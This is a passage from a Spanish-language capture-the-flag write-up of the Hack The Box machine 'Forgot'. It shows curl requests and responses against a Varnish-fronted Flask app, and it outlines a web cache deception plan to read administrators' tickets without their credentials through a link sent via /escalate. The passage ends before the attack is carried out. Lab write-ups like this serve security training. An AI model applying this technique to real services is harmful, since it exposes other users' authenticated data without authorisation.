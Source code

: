 Si elimino la cookie ```session``` hace un redirect a la raíz

```null
curl -s -X GET http://10.10.11.188/tickets -H "Cookie: __hstc=37486847.cf2c0d7ce8a81d6638f7885e6ef7ea42.1686647908509.1686647908509.1686647908509.1; hubspotutk=cf2c0d7ce8a81d6638f7885e6ef7ea42; __hssrc=1" -I
HTTP/1.1 302 FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Tue, 13 Jun 2023 10:05:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
X-Varnish: 78
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive
```

La ruta ```/static``` la utiliza el reverse proxy como almacenamiento caché. Intento cargar recursos de una ruta que no existe. Devuelve ```cache-control``` y el ```Age``` se modifica. Dado que se está cacheando, va a tomar como prioritario la autenticación desde el almacenamiento por lo que se puede tratar de leer tickets de usuarios administradores sin disponer sus credenciales

```null
curl -s -X GET http://10.10.11.188/static/rubbx -H "Cookie: __hstc=37486847.cf2c0d7ce8a81d6638f7885e6ef7ea42.1686647908509.1686647908509.1686647908509.1; hubspotutk=cf2c0d7ce8a81d6638f7885e6ef7ea42; __hssrc=1" -I
HTTP/1.1 404 NOT FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Tue, 13 Jun 2023 09:59:52 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 207
cache-control: public, max-age=240
X-Varnish: 196636 294933
Age: 388
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive
```

La sección ```Tickets(Escalated)``` corresponde a la ruta ```/admin_tickets```

<img src="/writeups/assets/img/Forgot-htb/8.png" alt="">

En caso de que un usuario Administrador cachée su contenido, podré verlo sin necesidad de emplear una cookie de sesión. En ```/escalate``` hay un formulario desde el cual puedo enviar un link
